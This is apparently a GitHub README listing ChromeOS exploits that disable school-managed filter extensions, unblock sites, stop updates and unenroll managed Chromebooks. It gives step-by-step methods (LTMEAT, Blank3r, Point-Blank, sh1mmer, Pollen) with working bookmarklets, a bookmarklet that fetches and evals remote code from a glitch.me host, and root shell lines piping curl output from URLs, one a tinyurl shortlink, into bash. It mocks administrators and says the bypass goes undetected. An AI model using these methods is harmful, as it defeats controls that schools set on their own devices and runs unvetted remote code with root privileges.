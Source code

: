 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destroy your computer if misused. So PLEASE, PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>

Please use these only when you have permission, I (3kh0) do not condone the use of any exploits for illegal purposes!
  
**ATTENTION ALL SYS ADMINS (aka communists)!!!**

Quit your job now. If you patch any of these we will sue but theres too much to block before you get complaints about the chromebook being unusable. Have fun. 


<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

### Thank you to all of the contributors!

Yall really are pretty epic :D

<a href="https://github.com/3kh0/ext-remover/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=3kh0/ext-remover" />
</a>

<details>
<summary><b>LTMEAT</b> Disable extensions</summary>

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are interested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhereblahblah/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. On the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs, and the extension will be dead. If nothing loads, you probably reloaded too late or spammed too slowly. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is highly misleading. Nobody blocked it--you need to find the correct extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should appear to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension, but now I can't load websites!**

If you just read the write-up, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners mean you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you needed to be spamming bookmark C faster. The most reliable fix is to restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension. Why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. Again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

[Baby method for slow people](https://ltmeat.bypassi.com/alt/1.txt)

*Need more help? [Ask in the discussions](https://github.com/3kh0/ext-remover/discussions)*

</details>

<details>
<summary><b>Temporary LTMEAT</b> Temporarily disable extensions</summary>

**A method of using LTMEAT that does not require `chrome://` urls.
Works by using 80-150 tabs to soak up memory.**

1. Create a bookmark with the link chrome://extensions/?id=idhereidkimaskid and name it “Kill switch”.

2. Create a new bookmark folder. Name it “spam.js”. Next, paste this link into your browser: chrome-extension://insertextidhere/background.js

3. Then right-click on your folder and hit “Add Page”. Press Enter.

4. Right-click on the folder again and hit “Bookmark Manager”. You should see your page. Click on it and hit Ctrl+C. Press Ctrl+V until you have 38 of them.

5. Go to a new tab and right-click your folder. Press “Open All (38)”.

6. Repeat step 3, then click on one of the tabs from this batch. Wait until the “this page is taking too long” popup appears. This will take 30-60 seconds. If it doesn’t, do chrome://restart and go back to step 2 and add 3-4 more pages to the folder.

7. Once the popup happens, right-click on one of the tabs closest to the right of the screen and hit “Duplicate”. Then, go to your “Kill switch” bookmark and look for a switch to flip, “Allow Access to File:// urls” or something. Then, click on the leftmost extension tab (one that opened from the main.js folder) and click “Close all tabs to the right”. KEEP THIS TAB OPEN!!!

Tips: Go to chrome://settings/performance and turn Memory Saver off, and in the box where it says “Keep these sites always active,” paste in the extension URL. I’ve noticed clicking on one of the tabs from the second batch seems to help with reliability.

</details>

<details>
<summary><b>Baby LTMEAT</b> Disable extensions</summary>

**Patched On Chrome Versions 115 And Above**

BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGED.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>NEW LTMEAT</b> Disable extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel, Then Here's A New Method For LTMEAT**

**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page many times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right-click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything, and you're good to go. If it didn't work, try adjusting the number of open tabs.


Bypassi should add this to his website as an Alternate Method # 2. With this workaround, LTMEAT can endure a longer life!

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this workaround

</details>

<details>
<summary><b>Baby NEW LTMEAT</b> Disable extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook I used 800 extension page tabs as I feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tabs in a new window, maybe waiting slightly longer to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen and a wait/exit page button," you did it right. BUT DO NOT CLICK THE EXIT PAGE BUTTON OR WAIT BUTTON. (Or if you want to do it fast, you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the one extension page tab remaining.

</details>

<details>
<summary><b>Print LTMEAT</b> Disable extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json.
2. Go to that page. and hit Ctrl+P. A print window should show up, with several pages in the top right.
3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you get that number, the longer the effect will last.
4. Reload. The page should start hanging.
5. Go to your extension's settings page, `chrome://extensions`.
6. Duplicate your "printing" tab, and go back to your extension's settings page.
7. Flip any switch you can find there. Usually, there'll be one titled "Allow Access to File:// [URI]s".
8. Enjoy


**Where do I find my extension's manifest.json?**
First, find your extension's ID. This is a 32-character code found on your extension's settings page, normally near or at the top. Then go to `chrome-extension://your-32-char-id-goes-here/manifest.json`

Credit to Bypassi for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hung with printing and lots of help and suggestions.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**

HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this exploit

</details>

<details>
<summary><b>Dextensify</b> Disable extensions</summary>

**Dextensify is an exploit that lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here [Dextensify.html](Dextensify.html)

Made by <a href="https://ading.dev/">ading2210</a>

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this won't work if there's not a plugin in there.
3. Hit the start button then the `inspect` button, and execute the basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit
</details>

<details>
<summary><b>Corkey</b> Corrupt extensions</summary>

1. Esc+Refresh+Power and re-enroll (Enter recovery page), or you can just powerwash.
2. log into your Chromebook and immediately turn off wifi and do refresh+power to (instant restart)
3. Log back into your Chromebook with the wifi off. There should be something on the side of the connect wifi page that says log in offline or sign in as an existing user.
4. Go to chrome://extensions, turn on wifi, and wait for your school's blocking extension to appear.
5. As soon as it appears, turn off wifi and instant restart as fast as you can.
6. Log back in, go back to extensions, and wait. If it says your blocking extension could be corrupted or doesn't appear at all, then it worked (wait at least a minute with a close watch in case it comes back)
7. If it didn't work repeat from step 1.
8. If it did work, congrats you did it.

</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without an allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a DNS)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and the name of it (This does not matter, you can put anything), then
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on Discord.
- DNS will be up soon for those who have JavaScript bookmarklets blocked.
- This will not work if you have a blocklist this is only for if when you go to the web store it shows blocked

</details>

<details>
<summary><b> Point-Blank</b> Execute scripts on extension pages</summary>

This exploit allows you to execute scripts on extension pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked you're screwed.)
1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> ([if blocked](https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js)) on your school chromebook.
2. Make a bookmark with the code there.
3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by Chrome, reload (you have to actually have Securly ofc)
 
 If you have iBoss visit <a href="https://tinyurl.com/goofboss">here</a>.
For Cisco Umbrella, visit <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian (might not work), go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript running on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
https://dsc.gg/blue-hat-crew

This works only for iBoss, and Blocksi, If you don't have one of these, use New Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesn't work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your Chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school-issued Chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifi that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your Chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import ONC` button.
11. Import the newly-downloaded file.

**Extra notes**
- Your Chromebook will no longer automatically update. (as long as you are on a wifi that you CAUBed)
- Be careful not to stay on wifi for too long without using CAUB on it, otherwise, you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>CAUB via Flags</b> Prevent Updates</summary>

This alt exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a Chrome flag, you can convince your Chromebook not to automatically update.

<i>Getting started</i>

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead
2. Enable it and restart your device
3. Go to your network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your Chromebook will no longer automatically update.
- Chrome://flags must not be blocked by your school otherwise, this exploit will not work
- And you must be able to enable flags if it ain't blocked otherwise, this exploit won't work

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Blank3r is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

The exploit code is below.
1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the GUI is in launcher.js

2. Navigate to `chrome://extensions`.

3. Click on an extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the escape key. If it loads into Chrome Webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the ID of the extension into the prompt separated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>sh1mmer</b> Unenrollment</summary>  
sh1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, such as LTBEEF. This is a built-in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4GB of storage, some boards have small or bigger images, I recommend 16GB
2. A personal computer with access to downloading extensions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the Chromebook you wish to downgrade and check for your board under `Platform` (ex I have a c3100 and its board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the Chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/Chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extension, click on the settings button in the top right-hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your Chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>

<details>
<summary><b>E-Halcyon</b> Unenrollment Or Downgrade</summary>

First of all, you'll need a Linux PC or VM. WSL is not guaranteed to work.

Now, you'll need to boot into SH1MMER, and press the Un-Enroll option. It won't truly unenroll you if you've received the 112 updates patching unenrollment and downgrading, but it is still a necessary step for the rest of this. If you've never used SH1MMER before or don't have an image lying around, make sure to follow all the instructions on sh1mmer.me for unenrollment before proceeding with the rest of the tutorial here

Next, you need a version 107 recovery image corresponding to your board, which you can pick up from chrome100.dev. Once you've downloaded the right image for your board and have confirmed it's for version 107, unzip it and save it to a safe place. Now open up a terminal and type in the following commands (make sure to replace /path/to/recovery/image.bin with the actual path)

```
git clone https://github.com/MercuryWorkshop/RecoMod
cd RecoMod
chmod +x recomod.sh
sudo ./recomod.sh -i /path/to/recovery/image.bin --halcyon --rw_legacy
```

The script will modify the image in place, and it can now be flashed with a standard recovery tool onto a USB of your choice.

Enable developer mode and get to the dev mode block screen similarly to how you would with SH1MMER, then plug in the USB. The recovery screen will show up, and at this point, you need to start spamming the E key on your keyboard. It will begin a 5-minute wait sequence, and near the end of the 5 minutes start spamming E again. You will only have to wait 5 minutes once, subsequent boots will have the 5-minute wait omitted

The boot splash will show, and you will enter a special menu. Use arrow keys to navigate the cursor down to "activate halcyon environment" and press enter. Then navigate down to "Install halcyon semi-tethered" and wait for it to finish. Once it's finished, go back to "activate halcyon environment" and press "Boot halcyon semi-tethered". and you will be booted into a downgraded and unenrolled ChromeOS environment.

FAQ:
How does this work?
See the writeup for more information

Can the admins see that I'm doing this?
No.

Why don't my history/cookies/etc save after a reboot?
Unfixable restriction of cryptohome. See the writeup for more information

Why is my Chromebook "Missing or damaged?"
After installing E-Halcyon, you won't be able to boot Chrome OS normally. You'll have to keep the USB around to jumpstart the booting process

Where do I report bugs?
The RecoMod GitHub

Why does it say "E mode not activated" when I try to boot halcyon?
You spammed the E key when starting at the wrong time, or not at all

Credits:
CoolElectronics - RecoMod, working switch_root, and everything else
OlyB - Insight and contributions to the RecoMod script
vk6 - Created this website

</details>

<details>
<summary><b>Extension Inactivity hack</b> Inactive Extensions</summary>

1. First, do the Esc+Refresh+Power
2. Press ctrl+d, then enter
3. Will give you some bullcrap about dev mode being blocked press enter then you will go to a newly powerwashed Chromebook
4. Next, add wifi
5. Then sign into your account
6. Immediately turn wifi off before extensions load
7. Go to `chrome://settings/signOut`
8. Click turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` and click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything except for bookmarks

Note: Before you do any of this do it at home so that way you don't have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New TUA</b> Temporarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
1. go to the chrome-extension://blockeridhere/manifest.json page.

2. go to a new tab page and type in the URL Website you want to unblock. don´t go into that website yet just leave it inside the URL Box.

3. go back to chrome-extension://blockeridhere/manifest.json now create a bookmark called E. now click more and In the URL Box you put chrome://kill. now save that bookmark.

4. create another bookmark called D. click more In the URL Box copy and paste
   ```
   javascript:(function () {window.onbeforeunload = function() { return 1; };})()
   ```
  Into that URL Box and save that bookmark.

6. go back to chrome-extension://blockeridhere/manifest.json page and now click bookmark B. then quickly go back to the new tab page and click enter. now quickly spam bookmark D like 2 or more times now there should be a pop up called "do you want to close this page?" click cancel. now boom that website is unblocked until you turn off your chromebook or until you exit out of that website. then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://blockeridhere/manifest.json page. then click Bookmark E then go to a random website. then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet. then spam Bookmark D two or more times then a pop up should appear. quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://blockeridhere/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed, womp womp

</details>

<details>
<summary><b>Old TUA</b> Temporarily Unblock Any Website</summary>

1. Make a bookmark called tab close blocker. now click more on the bottom left corner. now in that URL BOX put in `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`
2. Go to a new page. now go into the URL BOX on the top and put https://YOUR WEBSITE HERE. do not click enter yet stay in that URL BOX.
3. Do search+esc now which should open task Manager. if search+esc doesn't work then click the three dots on the top right. now and scroll down until you find more tools click that and find task Manager.
4. Find your blocker extension and click it. now on the bottom right you should see a button called End process. click it now quickly click the URL BOX on the new page and click enter. now quickly spam the bookmark tab close blocker. now a pop up should come up it should have to buttons cancel and leave. click cancel.

IMPORTANT NOTE: You can not do this exploit if bookmarklets or the task manager is blocked. womp womp
</details>

<details>
<summary><b>Enterprise Enrollment Glitch</b> Unenroll/Bypass Enterprise Enrollment</summary>

This only works on Chrome versions 115 and above, and your school has not to have force enterprise enrollment on your school Chromebook

1. Powerwash your Chromebook

A) esc+refresh+power

B) then "ctrl"+"d" and then space or enter

2. Then add wifi
3. Now when it takes you to the enrolling screen or whatever immediately turn off wifi, then wait until it says enterprise enrollment has failed or something like that
4. There should be 2-3 buttons to use as a personal device and enroll manually and try again
5. Click use as a personal device, then add back wifi and then sign in and boom Unenrollment worked

If it doesn't work then your screwed, womp womp

</details>

<details>
<summary><b>Fakemurk</b> Trick your Chromebook into being in developer mode while being enrolled in your school's profile.</summary>

**Fakemurk is a script that can run in developer mode to trick your Chromebook into being in developer mode while being enrolled in your school's profile. You can use this to disable any extension, as well as have full access to the Chrome web store and Google Play store. This provides a personal Chromebook-like experience while still being enrolled.**

Go here and follow instructions: <a href="https://docs.google.com/document/d/1Pku_CbEG9SwQtnm0I188RtpdpW8nXQhiNdMp8PN7Mik/edit?pli=1">Fakemurk Doc</a>

</details>

<details>
<summary><b>Pollen</b> Chrome OS User Policy Editor</summary>

How To Use

- Normal
  - Note: Devmode **NEEDS** to be enabled.
  - Open Crosh
  - Run `shell`
  - Run `sudo su`
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash`
  - Done! It may take a few seconds for the new policy to apply. If it does not apply, press `alt+vol_up+x`.
- PollenFS (RootFS)
  - Note: Disabling RootFS **will** Soft-Brick your Chromebook when booting back into normal mode.
  - Note II: Devmode **NEEDS** to be enabled.
  - Open Crosh
  - Run `shell`
  - Run `sudo su`
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/RootFS.sh | bash`
  - Reboot
  - Go Through Steps 1-3 Again
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/PollenFS.sh | bash`
  - Done! Your Pollen configuration is now permanently applied!

It works by loading a custom user policy into chromeOS. (Similar to how policies on windows work.)  

Using this we can either disable RootFS permanently or temporarily to load it.  

CrOS does not have the folder to load it built-in, however, the src code is still there so we can manually create it.  

Then simply we just create the file and restart.

Credits
- Pollen Developer - Scaratek
- Discovery - Rafflesia
- Original Script Developer - OlyB
- Logo - Nitelite
- Fixed Bug - r58playz
- Added Policies - 5less-chromosones

To make your own modifications refer to the Pollen Wiki

<a href="https://github.com/MercuryWorkshop/Pollen/wiki#getting-your-policies">Pollen Modifaction Wiki</a>

Further reading:
- https://github.com/MercuryWorkshop/Pollen

</details>

<details>
<summary><b>Customized Pollen</b> Chrome OS Policy Editor Customized</summary>

**Customized Pollen for SH1mmered chrombook users.** 

The original pollen by Mercury Workshop: https://github.com/MercuryWorkshop/Pollen 

It removes all admin-installed extensions and that's kinda a problem for me so this is edited it to make it fit more for SH1mmer users

So I customized this one to edit lots of features  but to keep all admin-installed extensions

incognito mode: on (everything unblocked, idk if extensions like GoGauridan can see)

ExtensionSettings: all settings removed

HomepageLocation: chrome://newtab

NewTabPageLocation:             (left empty)

ManagedBookmarks: removed all school added bookmarks

PinnedLauncherApps: removed all force pinned apps to home bar

RestoreOnStartupURLs:   (set it so when you open a new window some schools force it to also open the school's homepage so its set back to new tab and no extra tabs)

WebAppInstallForceList: removed all force installed apps


How to run

Note: Devmode NEEDS to be enabled.
Open Crosh

Run
```
shell
sudo su
curl -Ls https://tinyurl.com/repollen | bash
```

Done! It may take a few seconds for the new policy to apply. If it does not apply, press `alt+vol_up+x`

Errors

If you have Linux enabled you will have to turn it off and turn it back on for it to work

THIS WILL RESET EVERY TIME YOU RESTART THE CHROMEBOOK SO YOU WILL NEED TO REDO THE PROCESS

</details>
  
<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill the extension by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capitalized.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit `tinyurl.com/AddSession` or [this link](https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession)
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, YouTube, and any Google service.
6. All extensions should stop working.
7. Note that you must repeat this every time you restart or sign out.
8. If your Chrome version is `v112`, this exploit will no longer work, the bypass to this is listed further on. Visit`chrome://settings/resetProfileSettings` click current settings, and it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.
`
**This was discovered by Zoroark**
</details>

<details>
<summary><b>Shimboot</b> Linux from RMA shim</summary>

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.
  
**For more detailed information, please see the project's [README](https://github.com/ading2210/shimboot).**

Further reading:
- https://shimboot.ading.dev/
- https://github.com/ading2210/shimboot

Credit to [vk6](https://ading.dev/) for this exploit
</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode being blocked press enter then you will go to a newly restarted Chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to chrome://settings/signOut

8. click Turn off sync and personalization and then turn wifi back on and go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` and click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
